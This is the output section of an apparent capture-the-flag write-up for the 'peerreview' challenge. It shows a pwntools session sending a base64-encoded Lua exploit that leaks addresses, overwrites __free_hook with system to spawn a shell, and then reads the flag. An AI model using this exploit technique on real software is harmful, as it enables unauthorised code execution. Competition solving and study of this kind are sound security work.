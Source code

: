 Output:
```
[x] Opening connection to peerreview.sstf.site on port 37714
[x] Opening connection to peerreview.sstf.site on port 37714: Trying 211.214.89.198
[+] Opening connection to peerreview.sstf.site on port 37714: Done
[*] Connected
-----BEGIN GAME-----
ZnVuY3Rpb24gYWRkcm9mKHYpCiBsb2NhbCBzdHJyZXAgPSB0b3N0cmluZyh2KQogbG9jYWwgaSA9
IHN0cmluZy5maW5kKHN0cnJlcCwgJzB4JykKIGlmIGkgPT0gbmlsIHRoZW4KICBlcnJvcigiQ2Fu
bm90IG9idGFpbiBhZGRyZXNzIG9mIGdpdmVuIHZhbHVlIikKIGVuZAogcmV0dXJuIHRvbnVtYmVy
KHN0cmluZy5zdWIoc3RycmVwLCBpKzIpLCAxNikKZW5kCgpmdW5jdGlvbiBoZXgodikKIHJldHVy
biBzdHJpbmcuZm9ybWF0KCIweCV4IiwgdikKZW5kCgpiYXNlID0gYWRkcm9mKHN0YXJ0KSAtIDB4
MzA4NApwcmludCgiW0x1YV06IGJhc2UgPSAiIC4uIGhleChiYXNlKSkKCnByaW50Zl9wbHQgPSBi
YXNlICsgMHgyMzBFRDggLSAweDgKcHJpbnQoIltMdWFdOiBwcmludGZAcGx0ID0gIiAuLiBoZXgo
cHJpbnRmX3BsdCkpCgpfLCBwcmludGYgPSBsb2FkKHt9LCBwcmludGZfcGx0KQpwcmludCgiW0x1
YV06IHByaW50ZiA9ICIgLi4gaGV4KHByaW50ZikpCgpzeXN0ZW0gPSBwcmludGYgLSAweDE1YTIw
CnByaW50KCJbTHVhXTogc3lzdGVtID0gIiAuLiBoZXgoc3lzdGVtKSkKZnJlZV9ob29rID0gc3lz
dGVtICsgMHgzOWU0YzgKcHJpbnQoIltMdWFdOiBfX2ZyZWVfaG9vayA9ICIgLi4gaGV4KGZyZWVf
aG9vaykpCgpjb2xsZWN0Z2FyYmFnZSgiaW5jcmVtZW50YWwiLCAxMCkKCmZvbyA9IHNldG1ldGF0
YWJsZSh7fSwgeyBfX2djID0gZnVuY3Rpb24oKSBjb2xsZWN0Z2FyYmFnZSgiZ2VuZXJhdGlvbmFs
IikgZW5kIH0pCgpmb3IgaiA9IDEsIDExMCBkbwogZm9vID0ge2ZyZWVfaG9va30KZW5kCgpmb3Ig
aSA9IDEsIDEwIGRvCiBmb28gPSB7c3lzdGVtfQplbmQKCmZvciBpID0gMSwgMTAwIGRvCiBmb28g
PSB7MHg2ODczMmY2ZTY5NjIyZn0KZW5kCg==
-----END GAME-----
[*] Payload sent
[*] Switching to interactive mode
» [Lua]: base = 0x56208b200000
[Lua]: printf@plt = 0x56208b430ed0
[Lua]: printf = 0x7fdc9ae87e40
[Lua]: system = 0x7fdc9ae72420
[Lua]: __free_hook = 0x7fdc9b2108e8
sh: 1: 0#$�: not found
sh: 1: �G$�: not found
id
uid=1000(player) gid=1000(player) groups=1000(player)
cat flag
SCTF{17_15_d4n63r0u5_70_60_4l0n3!_74k3_7h15_fl46}
```

Flag: `SCTF{17_15_d4n63r0u5_70_60_4l0n3!_74k3_7h15_fl46}`
